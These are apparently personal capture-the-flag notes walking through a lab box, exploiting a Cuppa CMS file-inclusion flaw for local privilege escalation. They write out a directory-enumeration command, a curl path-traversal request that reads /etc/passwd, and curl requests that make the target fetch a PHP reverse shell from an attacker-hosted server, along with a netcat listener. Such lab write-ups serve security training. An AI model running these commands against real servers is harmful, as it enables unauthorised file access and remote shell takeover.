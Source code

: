 ## 3\) Exploitation \(Local Privilege Escalation\) 

#### **What is the vulnerability called when you can include a remote file for malicious purposes?**

* **Remote File Inclusion**: is an attack targeting vulnerabilities in web applications that dynamically reference external scripts, goal is to exploit the referencing function in an application to upload malware \(e.g., backdoor shells\) from a remote URL located within a different domain. Local is from the same web server.
* important.txt mentions to add features to beta CMS on personal website \(its a hidden directory, see what else is hiding on there\)

  Searching the hidden directory with `python3 dirsearch.py -u http://10.10.179.254/45kra24zxs28v3yd -w /usr/share/dirb/wordlists/common.txt -t 200 -r -e txt,php,html` _``_gives another subdirectory of administrator and /administrator/alerts

  * We must now find a link between local/remote file inclusion and the administrator subdirectory.
    * going to the /administrator subdomain reveals it is run by Cuppa CMS, this is relevant as searching for cuppa cms exploits reveals **Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion** or PHP Code Injection. Also revealed in searchsploit _searchsploit cuppa_ 
    * navigating to [http://10.10.179.254/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php](http://10.10.179.254/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php) reveals the source code that contains the vulnerability. **&lt;?php include\($\_REQUEST\["urlConfig"\]\); ?&gt;** it includes files on line 22

{% hint style="info" %}


_**\***_- what does milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash mean? how is he confirming that LFI works with this with this command `curl -s --data-urlencode urlConfig=../../../../../../../../../etc/passwd http://10.10.179.254/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?`

* \*\*--data-urlencode is necessary because URLs are sent in ASCII and must be converted.

  It begins with a name \(provided from ex-db\) followed by a separator and content specification \(the users file\) --data-urlencode name=content.

* it tries to request the contents of /etc/passwd from the site, which contain the users of the system.
* it uses ../../../ 9 times because it is used to manipulate file paths within the server. THIS CLARIFIES IT WORKS because it's a directory traversal vulnerability that allows us to read files of any type, including those outside the web root directory as shown on ex-db.
* The syntax username:x:uid:gid:text name:home directory:login shell means just that, it is to return Miles Dyson username and confirm that we can receive and transmit URLs per the line 22. PHP Code will be executed while non-PHP code \(user file\) is embedded to output, like what we got when we requested the user file\*\* 
* what does entirety of `curl http://10.10.179.254/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.68.31:8080/php-reverse-shell.php` mean? : **transferring URL information with a HTTP GET request that carries out using the syntax of exploit 25971. it is the means \(attack vector\) by which the reverse shell is passed to the server**

  _**\*\***_- check CMS version?

* Get a reverse shell script and change the IP to eth0, host it locally using Python, use netcat to listen for a session and then remotely include this shell on the webserver.
  * `python -m SimpleHTTPServer 8080` check version for syntax, navigate to /8080
  * `nc -lvnp` __ 
  * `curl http://10.10.201.44/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.171.176:8080/php-reverse-shell.php` sends GET request using the php shell
    * downloaded shell from [http://pentestmonkey.net/tools/web-shells/php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and edit for eth0 ip and desired port
